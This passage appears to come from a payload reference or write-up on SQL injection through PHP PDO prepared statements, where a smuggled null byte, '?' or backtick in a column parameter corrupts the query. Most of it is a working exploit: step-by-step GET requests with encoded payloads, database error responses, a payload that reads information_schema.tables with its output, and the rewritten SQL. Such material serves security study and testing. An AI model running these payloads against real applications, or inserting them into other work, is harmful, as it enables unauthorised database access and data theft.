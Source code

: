 **Methodology**:

**NOTE**: In PHP 8.3 and lower, the injection happens even without a null byte (`\0`). The attacker only needs to smuggle a "`:`" or a "`?`".

* Detect the SQLi using `?#\0`: `GET /index.php?col=%3f%23%00&name=anything`

    ```ps1
    # 1st Payload: ?#\0
    # 2nd Payload: anything
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '`'anything'#' at line 1
    ```

* Force a select \`'x\` instead of a column name and create a comment. Inject a backtick to fix the column and terminate the SQL query with `;#`: `GET /index.php?col=%3f%23%00&name=x%60;%23`

    ```ps1
    # 1st Payload: ?#\0
    # 2nd Payload: x`;#
    Column not found: 1054 Unknown column ''x' in 'SELECT'
    ```

* Inject in second parameter the payload. `GET /index2.php?col=\%3f%23%00&name=x%60+FROM+(SELECT+table_name+AS+`'x`+from+information_schema.tables)y%3b%2523`

    ```ps1
    # 1st Payload: \?#\0
    # 2nd Payload: x` FROM (SELECT table_name AS `'x` from information_schema.tables)y;%23
    ALL_PLUGINS
    APPLICABLE_ROLES
    CHARACTER_SETS
    CHECK_CONSTRAINTS
    COLLATIONS
    COLLATION_CHARACTER_SET_APPLICABILITY
    COLUMNS
    ```

* Final SQL queries

    ```SQL
    -- Before $pdo->prepare
    SELECT `\?#\0` FROM animals WHERE name = ?

    -- After $pdo->prepare
    SELECT `\'x` FROM (SELECT table_name AS `\'x` from information_schema.tables)y;#'#\0` FROM animals WHERE name = ?
    ```

